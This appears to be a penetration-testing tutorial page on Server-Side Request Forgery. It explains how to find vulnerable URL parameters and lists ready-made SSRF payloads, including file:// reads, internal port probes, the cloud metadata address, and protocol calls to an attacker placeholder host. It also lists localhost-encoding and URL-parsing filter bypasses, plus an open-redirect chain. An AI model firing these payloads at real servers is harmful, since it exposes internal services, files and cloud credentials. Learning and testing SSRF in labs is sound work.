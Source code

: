 # SSRF

**SSRF** stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are **two types** of SSRF vulnerability; the first is a **regular SSRF** where **data is returned to the attacker's screen**. The second is a **Blind SSRF** vulnerability where an SSRF occurs, but **no information is returned to the attacker's screen**.

## Finding an SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

* When a **full URL** is used in a parameter in the address bar:

<figure><img src="../../../../.gitbook/assets/956e1914b116cbc9e564e3bb3d9ab50a.png" alt=""><figcaption></figcaption></figure>

*   A **hidden field** in a form:\


    <figure><img src="../../../../.gitbook/assets/237696fc8e405d25d4fc7bbcc67919f0.png" alt=""><figcaption></figcaption></figure>
*   A **partial URL** such as just the hostname:\


    <figure><img src="../../../../.gitbook/assets/f3c387849e91a4f15a7b59ff7324be75 (1).png" alt=""><figcaption></figcaption></figure>
*   Or **perhaps only the path of the URL**:\


    <figure><img src="../../../../.gitbook/assets/3fd583950617f7a3713a107fcb4cfa49.png" alt=""><figcaption></figcaption></figure>

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as [https://webhook.site/](https://webhook.site/).



## Testing SSRF

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

To do this, we have to **navigate through the website** with the **Burp Proxy** activeted, and then we have to analyze the request to **find a possibile vulnerable parameter**.&#x20;

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.



## Bypassing Filter

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

<details>

<summary>Blacklist input filter</summary>

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

```
http://127.1/admin
http://0/admin
http:@0/admin
http://0.0.0.0:80/admin
http://[::]:80/admin
http://[0000::1]:80/admin
http://2130706433/admin # Decimal version of localhost
http://0x7f000001/admin # Hexadecimal version of localhost
http://169.254.169.254/admin # amazon cloud
```

* Obfuscating string using URL encoded, even double URL encoded sometimes. Or sometimes the alterantive IP works but the control works with the path /admin. In this case we can encoding only the path (ex `http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`)
* Registered your own domain name that resolved the `localhost` IP address.
* Swithing from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

</details>

<details>

<summary>Whilist input filter</summary>

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, for example the URL must begin with http://expected-host, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:

*   You can embed credentials in a URL before the hostname, using the `@` character. For example:

    `https://expected-host:fakepassword@evil-host`
*   You can use the `#` character to indicate a URL fragment. For example:

    `https://evil-host#expected-host`
*   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

    `https://expected-host.evil-host`
* You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
* You can use combinations of these techniques together.

</details>

<details>

<summary>Open Redirection</summary>

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. \
An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.

For example, the application contains an open redirection vulnerability in which the following URL:

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

{% code overflow="wrap" %}
```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
{% endcode %}

This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

</details>





## Utils ex.

### \&x= to ignore

If we can insert other domain into a parameter but there is the next part of the URL that we have to ignore we can use  `&x=` at the start of ignore part

```bash
# start URL
https://website.thm/item/2?server=api

# the server par replaces the SUBDOMAIN of the URL. 
# We can add in this par all other URL for the request and then tell to request to 
# ignore the next part with &x= symbol
# Requesto to send
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# effective request forgery which will be send 
https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2
```







## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/ssrf/" %}

